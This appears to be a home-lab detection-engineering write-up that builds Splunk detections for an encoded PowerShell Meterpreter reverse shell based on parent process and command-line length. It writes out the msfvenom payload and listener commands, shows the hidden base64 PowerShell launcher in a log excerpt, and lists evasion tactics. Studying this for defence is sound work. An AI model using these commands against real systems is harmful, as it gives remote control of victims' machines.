








# Catching My First Reverse Shell: Two Ways to Spot an Encoded PowerShell Payload

> **One-line summary:** I detonated a Meterpreter reverse shell against a Windows workstation in my lab, then built two Splunk detections that catch it from different angles: one on the process that spawned it, and one on the length of the command line that launched it.

This is part of a home lab I built to teach myself detection engineering hands-on, playing both attacker and defender to understand how an intrusion looks from each side.

**ATT&CK mapping:** ATT&CK is the industry-standard catalog of attacker techniques, and mapping detections to it is how defenders talk about coverage. This activity falls under _Command and Scripting Interpreter_ ([T1059](https://attack.mitre.org/techniques/T1059/)). More specifically, the payload runs through _PowerShell_ ([T1059.001](https://attack.mitre.org/techniques/T1059/001/)), which then launches a _Windows Command Shell_ ([T1059.003](https://attack.mitre.org/techniques/T1059/003/)). Both are Execution techniques.

---

## 1. What the attacker is doing

A reverse shell is one of the most common ways an attacker turns a foothold into real control of a machine. Instead of the attacker reaching into the victim (which a firewall usually blocks), the victim reaches _out_ to the attacker. Outbound connections tend to sail through firewalls that would stop an inbound one, so this "call me, I won't call you" pattern is everywhere in real intrusions.

The version I used wraps a Meterpreter payload inside a PowerShell command. Meterpreter is a feature-rich remote-control agent that, once running, lives in memory and stays quiet, so it is a realistic stand-in for what an attacker would actually drop. The stealth is in the agent, though, not in how it arrives: the payload has to launch as a long, encoded PowerShell one-liner that decodes and runs shellcode in memory. So the delivery is loud even when the thing it delivers is quiet, and that loud delivery is what I wanted to learn to catch. A hidden PowerShell process carrying a wall of base64 is a shape that very little legitimate activity produces.

## 2. How I ran it in my lab

My attacker box is a Linux machine at `192.168.137.139`. My target is a domain-joined Windows 11 workstation. I generated the payload with `msfvenom`, pointing the callback address at my attacker box:

```bash
# On the attacker (Linux), generate the payload
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  lhost=192.168.137.139 lport=4444 -f psh-cmd
```


*msfvenom generating the encoded PowerShell reverse shell payload on my attacker box.*

Then I set up a listener to catch the callback:

```bash
# In msfconsole, start the handler
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.137.139
set lport 4444
exploit -j
```

A note about lab conditions: this host had Defender, AMSI, and the firewall turned off. A payload this loud, a plaintext base64 PowerShell blob, would normally be caught or blocked outright on a modern Windows box before it ever ran. I turned those protections off on purpose, because the point here was not to prove I could slip past prevention, it was to let the sample execute cleanly and study the telemetry it produces so I could build detections on it.

One thing that tripped me up: the `psh-cmd` format starts with `%COMSPEC%`, which is a Command Prompt variable, not a PowerShell one. When I pasted it into a PowerShell window it died instantly with a "not recognized" error. Running it in a plain `cmd.exe` window instead let it execute. That detail matters later, because it shapes the process tree the detection keys on: the wrapper launches PowerShell, and once the session is live it drops back into a `cmd.exe` shell, so in the logs I end up seeing PowerShell as the _parent_ of a Command Prompt. That direction looks backwards at first glance, but it is exactly what this payload produces.

When the payload ran, the listener caught the session and dropped me into an interactive shell on the target. Checking my token showed the session was running as `CONDEF\Administrator`, an account that sits in Domain Admins, which is a good reminder that a single shell can already be a very bad day for a defender.



*The listener catches the callback and I land an interactive session as `CONDEF\Administrator`, a member of Domain Admins.*

**Attacker context:** run from my Linux box (`192.168.137.139`) against a domain-joined Windows 11 host, landing a session as `CONDEF\Administrator`.

## 3. What it left behind in the logs

I run Sysmon on my Windows hosts and ship it to Splunk, so the execution showed up as a Sysmon **Event ID 1 (process creation)** event in my `sysmon` index. Here is the representative event, trimmed to the fields that actually matter for the detection:

```text
RuleName:           technique_id=T1059.003,technique_name=Windows Command Shell
UtcTime:            2026-07-11 03:16:09.897
Computer:           win11v.condef.local
Image:              C:\Windows\System32\cmd.exe
CommandLine:        C:\WINDOWS\system32\cmd.exe
User:               CONDEF\Administrator
IntegrityLevel:     High
ParentImage:        C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ParentCommandLine:  "powershell.exe" -nop -w hidden -c &([scriptblock]::create((New-Object
                    System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object
                    System.IO.MemoryStream(,[System.Convert]::FromBase64String((('H4sIAL...
                    [~4,200 characters of base64 omitted]
                    ...')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))
```

- **Index:** `sysmon`
- **Event ID:** `1` (process creation)
- **Key fields:** `Image` = `cmd.exe`, `ParentImage` = `powershell.exe`, `ParentCommandLine` = a multi-thousand-character encoded blob, `IntegrityLevel` = `High`


*The malicious execution in Sysmon: cmd.exe spawned by a hidden PowerShell process carrying a base64 blob. The benign row below (wt.exe) is Windows Terminal.*

Two things jump out. First, a Command Prompt was spawned by PowerShell, not by the user double-clicking something. Second, look at where the length is: the `cmd.exe` process has a short command line of its own, but the _parent_ command line that launched it is enormous and full of base64. That split matters for the detections below, since the giveaway lives in the parent, not the child. Each of those two observations is a detection all on its own, so I built both.

Worth noting: my telemetry even tagged the event with `technique_id=T1059.003` on its own, because the Sysmon config I use maps activity to ATT&CK as it writes the event. That is a nice head start, but I did not want to lean on a pre-baked tag, so I built the detections from the raw fields.

## 4. Detection 1: a command prompt with the wrong parent

The reasoning here is about process lineage. When a person opens a Command Prompt the normal way, by clicking it or searching for it, the process that launches it is `explorer.exe`, the Windows shell. That is the fingerprint of a human sitting at the keyboard. So a `cmd.exe` whose parent is _not_ `explorer.exe` is worth a hard look, because something automated launched it.

My first pass was deliberately naive, just to see the shape of the data:

```spl
index=sysmon Image = *cmd*
| where EventCode = 1
| where ParentImage != "C:\\Windows\\explorer.exe"
| table Image,ParentImage
```


*First pass. In my environment the results are buried under Splunk's own Python spawning Command Prompts.*

That returned thousands of events, and this is where I learned my first real lesson about tuning: **the noise is specific to your environment, not to the technique.** Because I run Splunk on the same host I was searching from, the results were flooded with Splunk's own Python launching Command Prompts. Someone else running the identical query on a different host would see a completely different set of false positives. The query logic was fine. My environment just had its own background hum I had to account for.

So I allowlisted the legitimate non-`explorer.exe` parents I could verify were benign:

```spl
index=sysmon Image = *cmd*
| where EventCode = 1
| where ParentImage != "C:\\Windows\\explorer.exe"
| where ParentImage != "C:\\Program Files\\VMware\\VMware Tools\\vmtoolsd.exe"
| where ParentImage != "C:\\Program Files\\Splunk\\bin\\python3.9.exe"
| where ParentImage != "-"
| where ParentImage != "C:\\Windows\\System32\\svchost.exe"
| table _time,Image,ParentImage,CommandLine,ParentCommandLine
```

That collapsed thousands of events down to a handful, and my malicious `powershell.exe` to `cmd.exe` spawn was sitting right there.


*After allowlisting the verified benign parents, the malicious powershell.exe to cmd.exe spawn is all that's left.*

**How it works:** the detection keys on the parent process. A shell that a human opened traces back to `explorer.exe`. My reverse shell traced back to a hidden PowerShell process, which is the tell. The allowlist is where the real judgment lives, and it is a genuine tradeoff. Every parent I exclude is a door I am choosing not to watch. If an attacker knew I was blindly trusting `svchost.exe` as a parent, that becomes a place to hide. So the exclusions are not "make the noise go away," they are "I have verified these specific sources and accept the small blind spot they create."

## 5. Detection 2: a command line that is way too long

The second angle ignores lineage entirely and looks at size. That giant base64 blob in the parent command line is not an accident of this one payload, it is inherent to how encoded PowerShell payloads work. They have to carry the encoded shellcode as text, and that text is long. Normal commands are short. So command line length by itself is a signal.

I started by measuring the length of every command line and its parent, then sorting so the longest floated to the top:

```spl
index=sysmon
| where EventCode = 1
| eval CommandLineLength = len(CommandLine)
| eval ParentCommandLineLength = len(ParentCommandLine)
| table ParentCommandLineLength,CommandLineLength,CommandLine,ParentCommandLine
| sort -CommandLineLength
```


*Measuring command line length and sorting longest-first. The encoded payload towers over normal activity.*

Sorting longest-first is a fast way to eyeball where "normal" ends and "suspicious" begins. In my environment, ordinary command lines clustered well under a couple thousand characters, and the encoded payload towered over everything else. That gave me a baseline to threshold against, so I filtered to anything over 2,000 characters:

```spl
index=sysmon
| where EventCode = 1
| eval CommandLineLength = len(CommandLine)
| eval ParentCommandLineLength = len(ParentCommandLine)
| table ParentCommandLineLength,CommandLineLength,CommandLine,ParentCommandLine
| where (ParentCommandLineLength > 2000 OR CommandLineLength > 2000)
| sort -CommandLineLength
```


*Filtering to command lines over 2,000 characters. A legitimate long-liner (the Edge updater) still shows up, which is what the parent filter cleans up.*

That still left a few false positives. Some legitimate software genuinely does run long command lines. Chasing the threshold higher and higher is a losing game, though, so the better move is to stop relying on length alone.

## 6. Combining the two

Detection 1 and Detection 2 each have false positives on their own. Plenty of things spawn from a non-`explorer.exe` parent. A few things run very long command lines. But almost _nothing_ legitimate does both at once: launches from an unusual parent AND carries a multi-thousand-character command line. Combining two weak signals into one stronger one is a standard way out of this, and it fits here perfectly.

```spl
index=sysmon
| where EventCode = 1
| eval CommandLineLength = len(CommandLine)
| eval ParentCommandLineLength = len(ParentCommandLine)
| table ParentImage,ParentCommandLineLength,CommandLineLength,CommandLine,ParentCommandLine
| where (ParentCommandLineLength > 2500 OR CommandLineLength > 2500)
| where ParentImage != "C:\\Windows\\explorer.exe"
| where ParentImage != "C:\\Program Files (x86)\\Microsoft\\EdgeUpdate\\MicrosoftEdgeUpdate.exe"
| sort -CommandLineLength
```


*The combined query. Only the payload's own process chain survives both filters, the Edge updater and other long-liners are gone.*

This asks for Event ID 1 process creations where the command line (or its parent's) runs past 2,500 characters, AND the parent is not one of the benign long-command-line sources I verified (in my environment that was Explorer and the Edge updater). I nudged the threshold up from 2,000 to 2,500 here to shed a few more borderline legitimate long-liners while staying well clear of the payload, which was far longer than either. What is left is the malicious activity, with far less to sift through than either detection produced alone.

## 7. False positives and tuning

This is where I learned the most.

|Benign source|Why it fires|Tuning approach|
|---|---|---|
|Splunk's own Python (`python3.9.exe`)|Launches `cmd.exe` constantly on a host running Splunk|Allowlist that specific parent path, and be aware this noise only exists because I search from a Splunk host|
|VMware Tools (`vmtoolsd.exe`)|Spawns Command Prompts for guest operations|Allowlist the verified binary path|
|`svchost.exe` and null (`-`) parents|Service and system activity legitimately spawns shells|Allowlist, accepting the blind spot it creates|
|Edge updater (`MicrosoftEdgeUpdate.exe`)|Occasionally runs long command lines|Allowlist for the length-based detection specifically|
|Legitimate installers and admin tooling|Some genuinely use very long command lines|Combine length with the parent-process signal so length alone is not the trigger|

The big takeaway is that **an allowlist is a set of accepted blind spots, not a way to silence noise.** Each exclusion I add is somewhere an attacker could theoretically hide, so I only exclude sources I have actually verified, and I treat the list as something to revisit rather than set and forget. My length threshold is the same story: 2,500 is not a magic number, it is just comfortably above what normal looks like _in my lab_. On a network with chatty legitimate tooling, that number would need to move.

## 8. Evasion and how brittle this is

Thinking like the attacker for a second, both detections are dodgeable, and it is worth being clear-eyed about that.

The length detection is the more fragile of the two. An attacker who chunks the payload, pulls it from a remote location, or stages it through a file instead of an inline command can keep every individual command line short and slip right under a character threshold. Length is a good catch for lazy or default tooling, but it is not something to lean on alone.

The parent-process detection is sturdier, because the attacker still has to execute _somehow_, and that execution still has a parent. But it can be weakened too, for example by injecting into or launching from a process I have allowlisted. That is exactly why combining the two matters: making both signals fire at once is harder than defeating either one. It is still not bulletproof, but it raises the cost, and raising the attacker's cost is most of what detection engineering is really about.

Where I want to take this next is process-tree and behavioral detections that do not depend on a specific string length or a specific parent path, so that an attacker changing surface details does not walk straight past me.

---

### References

- ATT&CK T1059.003 - Windows Command Shell: https://attack.mitre.org/techniques/T1059/003/
- ATT&CK T1059.001 - PowerShell: https://attack.mitre.org/techniques/T1059/001/
- Threat Hunting the Command Line (Sumo Logic): https://www.sumologic.com/blog/threat-hunting-command-line/
- Process Command Line (Red Canary): https://redcanary.com/blog/process-command-line/
- Process Creation (Red Canary): https://redcanary.com/blog/process-creation/
- Better Know a Data Source: Process Integrity Levels (jsecurity101): https://jsecurity101.medium.com/better-know-a-data-source-process-integrity-levels-8338f3b74990
